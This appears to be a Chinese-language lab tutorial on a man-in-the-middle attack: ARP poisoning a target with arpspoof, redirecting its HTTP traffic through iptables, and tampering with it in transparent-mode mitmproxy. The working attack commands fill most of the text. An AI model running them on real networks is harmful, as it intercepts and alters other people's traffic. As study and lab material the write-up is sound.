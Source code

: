 # 中间人攻击-http劫持与篡改

## 测试环境

- 系统：Arch Linux
- 工具：mitmproxy、arpspoof、iptables
- 网络：arp防护关闭，被攻击方未设置静态arp

## 中间人通道

> 内网使用arpspoof进行arp污染进而架起中间人通道
>
>
>
> 此处顺带一说，mac地址本身不是随意分配的，标准情况下mac地址的前三个字节代表其公司。（附：[厂商列表](http://standards-oui.ieee.org/oui/oui.txt)）
>
> 此处网卡mac地址可以看到：
>
> - 001500:Intel Corporate
> - 38539c:Apple, Inc.
> - 5cc999:New H3C Technologies Co., Ltd
>
> Ps：mac地址可以从软件层面上修改伪装，详情自行搜索

``` shell
# -i 为指定出口网卡，本笔记本的无线网卡为wlp2s
# -t 为指定投毒的ip地址，
# 后面尾随的10.10.30.1为要伪装的地址
# 以下命令含义为：
#    通过wlp2s0网卡向ip为10.10.30.8的机器进行arp污染：10.10.30.1对应的mac地址为wlp2s0网卡的mac地址
sudo arpspoof -i wlp2s0 -t 10.10.30.8 10.10.30.1
```

[![asciicast](https://asciinema.org/a/308588.svg)](https://asciinema.org/a/308588)

## 篡改流量

### 攻击机准备

``` shell
# 重启iptables服务
sudo systemctl restart iptables
# 查看nat转发列表
sudo iptables -t nat -nvL
# 设置转发规则
sudo iptables -t nat -A PREROUTING -i wlp2s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
# 查看是否设置成功
sudo iptables -t nat -nvL
# 使用mitm脚本启动mitmproxy（也可使用mitmdump或mitmweb启动，前端ui界面不一样）
sudo mitmproxy --mode transparent -p 8080 -s ~/Documents/sources/blog/mitm/mitm_demo.py
```

[![asciicast](https://asciinema.org/a/308593.svg)](https://asciinema.org/a/308593?t=10)

### 靶机访问

靶机访问 http://taobao.com 即可（Ps：如果失败，先查看是否有本地301跳转到https://taobao.com)

![](capture.png)







































